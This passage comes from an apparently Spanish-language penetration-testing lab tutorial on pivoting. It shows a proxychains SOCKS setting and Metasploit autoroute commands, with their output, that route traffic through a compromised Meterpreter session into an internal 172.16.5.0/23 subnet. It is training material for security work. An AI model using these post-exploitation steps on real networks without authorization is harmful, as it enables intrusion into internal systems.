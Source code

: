 ```r
socks4 	127.0.0.1 9050
```

Nota: Dependiendo de la versión que esté ejecutando el servidor SOCKS, ocasionalmente podemos necesitar cambiar de socks4 a socks5 en proxychains.conf.

Finalmente, necesitamos decirle a nuestro módulo socks_proxy que enrute todo el tráfico a través de nuestra sesión de Meterpreter. Podemos usar el módulo `post/multi/manage/autoroute` de Metasploit para agregar rutas para la subred 172.16.5.0 y luego enrutar todo nuestro tráfico de proxychains.

### Creating Routes with AutoRoute

```r
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```

También es posible agregar rutas con autoroute ejecutando autoroute desde la sesión de Meterpreter.

```r
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```

Después de agregar la(s) ruta(s) necesaria(s) podemos usar la opción `-p` para listar las rutas activas y asegurarnos de que nuestra configuración se aplique como se espera.

### Listing Active Routes with AutoRoute

```r
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```
